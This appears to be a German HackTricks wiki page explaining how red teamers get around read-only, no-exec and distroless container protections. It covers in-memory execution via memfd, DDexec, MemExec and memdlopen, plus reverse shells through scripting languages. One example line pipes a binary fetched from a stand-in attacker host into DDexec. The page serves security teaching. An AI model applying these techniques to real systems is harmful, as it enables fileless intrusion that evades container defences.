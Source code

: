 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos findest du die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec Szenario

Es ist immer häufiger anzutreffen, dass Linux-Maschinen mit **schreibgeschütztem (ro) Dateisystemschutz** gemountet werden, insbesondere in Containern. Das liegt daran, dass es so einfach ist, einen Container mit ro Dateisystem zu betreiben, wie **`readOnlyRootFilesystem: true`** im `securitycontext` festzulegen:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Allerdings, selbst wenn das Dateisystem als ro gemountet ist, bleibt **`/dev/shm`** beschreibbar, sodass es falsch ist zu sagen, dass wir nichts auf die Festplatte schreiben können. Diese Ordner werden jedoch **mit no-exec-Schutz** gemountet, sodass du eine hier heruntergeladene Binärdatei **nicht ausführen kannst**.

{% hint style="warning" %}
Aus der Perspektive eines Red Teams macht dies das **Herunterladen und Ausführen** von Binärdateien, die sich nicht bereits im System befinden (wie Backdoors oder Enumerator wie `kubectl`), **kompliziert**.
{% endhint %}

## Einfachster Bypass: Skripte

Beachte, dass ich von Binärdateien gesprochen habe, du kannst **jedes Skript ausführen**, solange der Interpreter auf der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python**-**Skript**, wenn `python` installiert ist.

Allerdings reicht das nicht aus, um deine Binär-Backdoor oder andere Binärwerkzeuge auszuführen, die du möglicherweise benötigst.

## Speicher-Bypässe

Wenn du eine Binärdatei ausführen möchtest, aber das Dateisystem dies nicht zulässt, ist der beste Weg, dies zu tun, indem du sie **aus dem Speicher ausführst**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec syscall Bypass

Wenn du einige leistungsstarke Skript-Engines auf der Maschine hast, wie **Python**, **Perl** oder **Ruby**, könntest du die Binärdatei herunterladen, um sie aus dem Speicher auszuführen, sie in einem Speicher-Dateideskriptor (`create_memfd` syscall) speichern, der nicht durch diese Schutzmaßnahmen geschützt ist, und dann einen **`exec` syscall** aufrufen, der den **fd als die auszuführende Datei angibt**.

Dafür kannst du leicht das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Du kannst ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache generiert, mit der **Binärdatei komprimiert und b64 codiert** und den Anweisungen, um sie in einem **fd** zu **dekodieren und zu dekomprimieren**, das durch den Aufruf des `create_memfd` syscalls erstellt wurde, und einem Aufruf des **exec** syscalls, um sie auszuführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprache wie PHP oder Node, da sie keine **Standardmethode haben, um rohe Syscalls** aus einem Skript aufzurufen, sodass es nicht möglich ist, `create_memfd` aufzurufen, um den **Speicher fd** zu erstellen, um die Binärdatei zu speichern.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da du sie nicht ausführen darfst, weil der **no-exec-Schutz** gilt.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es dir ermöglicht, den **Speicher deines eigenen Prozesses** zu **modifizieren**, indem du dessen **`/proc/self/mem`** überschreibst.

Daher kannst du, indem du **den Assembly-Code kontrollierst**, der vom Prozess ausgeführt wird, einen **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es dir, deinen eigenen **Shellcode** oder **jede Binärdatei** aus dem **Speicher** zu laden und **auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Für weitere Informationen zu dieser Technik, siehe das Github oder:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es ist ein **DDexec Shellcode, der demonisiert wurde**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen** möchten, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Daemon kommunizieren, um neue Binärdateien zu laden und auszuführen**.

Ein Beispiel, wie man **memexec verwendet, um Binärdateien von einem PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die [**memdlopen**](https://github.com/arget13/memdlopen) Technik eine **einfachere Möglichkeit, Binärdateien** im Speicher zu laden, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist distroless

Distroless-Container enthalten nur die **minimalen Komponenten, die notwendig sind, um eine bestimmte Anwendung oder Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, schließen jedoch größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die **Angriffsfläche von Containern zu reduzieren, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert wird.

### Reverse Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie werden auch keine Binärdateien wie `ls`, `whoami`, `id`... finden, alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **nicht** in der Lage sein, eine **Reverse Shell** zu erhalten oder das System wie gewohnt zu **enumerieren**.
{% endhint %}

Wenn der kompromittierte Container beispielsweise eine Flask-Webanwendung ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn es Node ausführt, können Sie eine Node-Reverse-Shell erhalten, und dasselbe gilt für die meisten **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das **System enumerieren**, indem Sie die Sprachfähigkeiten nutzen.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In dieser Art von Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Techniken zur Ausführung im Speicher verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie man **einige RCE-Schwachstellen ausnutzt**, um Skriptsprache **Reverse Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
